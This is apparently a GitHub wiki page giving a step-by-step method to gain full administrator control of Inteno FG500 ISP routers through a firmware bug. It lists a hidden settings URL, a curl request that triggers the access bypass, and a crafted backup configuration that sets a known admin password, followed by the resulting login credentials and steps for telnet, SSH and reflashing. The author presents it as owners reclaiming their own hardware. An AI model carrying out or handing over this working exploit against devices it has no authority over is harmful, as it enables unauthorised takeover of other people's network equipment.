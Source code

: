 ![banner](https://user-images.githubusercontent.com/26827453/175800666-7e54a694-cf35-4cc0-af0d-6883a9bf132c.jpg)

# Inteno FG500 (NetAtOnce)

### This wiki and **all** scripts that will be made by wuseman is licensed under GPL Version 3.

### This is the first wiki online that will help you to bring the power back from Inteno and many swedish ISPS by this method (not the only method)

### No intrusion on Inteno or any swedish ISP servers has occurred and no damage on hardware has been done. It's all about extremely poor security in the firmware.

### No password will be provided at all on this wiki due to convicted judgment in the district court. 

### _Therefore, I will show another way that does not require cracking passwords of any ISP's password! This tutorial will also work fine for ALL isps and not just for swedish ISPS._

### Greetings to Daniel Vindevåg for all the hard work this guy did http://www.nattsjo.se/fiber/admin.php and really impressive that you toke all your hard work to court even if they won! Stay strong! On his personal page you can find alot of good info (swedish only) for how to crack the admin password and also some nice scripts like dnshijacking.

### Read more about his job [here](http://www.nattsjo.se/fiber/admin.php) and about the judgment decision and info about this can be found [http://nao.vindevag.com/](here)

### If you still using this router (its pretty good to be honest) then do yourself a favor and take control over the router, here is some articles about Inteno FG500

### [Ownit Deploys Wifi Routers With Security Hole Across Sweden](http://scienceblogs.com/aardvarchaeology/2014/10/19/ownit-deploys-wifi-routers-with-security-hole-across-sweden/)

### [Inteno CWMP certificate validation vulnerability](https://sintonen.fi/advisories/inteno-cwmp-certificate-validation-vulnerability.txt)

### And from now, there is another bug wich i will expose in this repo! ;-)

### A notice to all nerds. If you will copy the wiki and steal the real developers work will not make you a hacker.

# Default views

![login-screen-default](https://user-images.githubusercontent.com/26827453/175799991-58ec3368-4057-4228-8ae0-7841985d6059.png)

![mainscreen2](https://user-images.githubusercontent.com/26827453/175799993-0bc1cba1-fc8a-40b2-9477-f3c2a16aef78.png)

![managment-default](https://user-images.githubusercontent.com/26827453/175799994-bd24cb37-3732-4349-b3e8-d72c051b176f.png)

## Let's hack!

### To get telnet, ssh and all other services enable as an administrator via wusemans method if Daniels password does not work for your isp, then use the bug I have found.

### Visit the hidden page: 

      http://192.168.1.1/updatesettings.html

### This will give you a WHITE page (see video below), now open a terminal and type:

```sh
curl -L http://192.168.1.1 -u loginname:password
```
### Wierd bug preview: 

![wierd-bug](https://user-images.githubusercontent.com/26827453/175800084-3b6caaf5-ddb1-43cd-8ef6-f62b741ba933.gif)

### Now head back to the website and you will be able to visit the updatesettings page as default user ;-)

### Create a file named backupsettings.conf and add below text into backupsettings.conf:

```sh
      <X_BROADCOM_COM_LoginCfg>
          <AdminPassword>e8d4ef5c95f6925dfdf7b91da9a2da90</AdminPassword>
      </X_BROADCOM_COM_LoginCfg>
      <Services>
        <StorageService instance="1">
        </StorageService>
        <StorageService nextInstance="2" ></StorageService>
        <VoiceService instance="1">
        <VoiceProfileNumberOfEntries>0</VoiceProfileNumberOfEntries>
        <X_BROADCOM_COM_BoundIfName>Any_WAN</X_BROADCOM_COM_BoundIfName>
        <Capabilities>
          <Codecs instance="1">
          </Codecs>
          <Codecs instance="2">
          </Codecs>
          <Codecs instance="3">
          </Codecs>
          <Codecs instance="4">
          </Codecs>
          <Codecs instance="5">
          </Codecs>
          <Codecs instance="6">
          </Codecs>
          <Codecs instance="7">
          </Codecs>
          <Codecs instance="8">
          </Codecs>
          <Codecs nextInstance="9" ></Codecs>
        </Capabilities>
```

### Upload the file and let the router reboot.

### Now you are able to login via ssh, telnet or webgui with full privileges:

# Login details:

```sh
username: admin
password: wusemanwashere
```

### This is how it will look when you have full control, there is alot of services to play with:

![services-after-hacking](https://user-images.githubusercontent.com/26827453/175800054-58641308-7298-4e33-b52f-97e6b9d2a017.png)

### If you want, flash your firmware with your own openwrt firmware:

![update-firmware-after-hacking png](https://user-images.githubusercontent.com/26827453/175800078-4bec4243-4bfb-46c3-a914-edb3ba23998b.png)

### Mainscreen after we hacked the router:

![mainscreen-after-hacking](https://user-images.githubusercontent.com/26827453/175800048-9da24231-4e49-4ddf-8b83-a5a085547f58.png)

### Shell is really minimal:

![telnet-intenofg500](https://user-images.githubusercontent.com/26827453/175800044-e634ff65-4672-4999-b977-e468b67a187f.gif)

### REQUIREMENTS

A linux setup would be good ;)

### CONTACT 

If you have problems, questions, ideas or suggestions please contact me by posting to wuseman@nr1.nu

### WEB SITE

Visit my websites and profiles for the latest info and updated tools

https://github.com/wuseman/ && https://nr1.nu && https://stackoverflow.com/users/9887151/wuseman

### END!

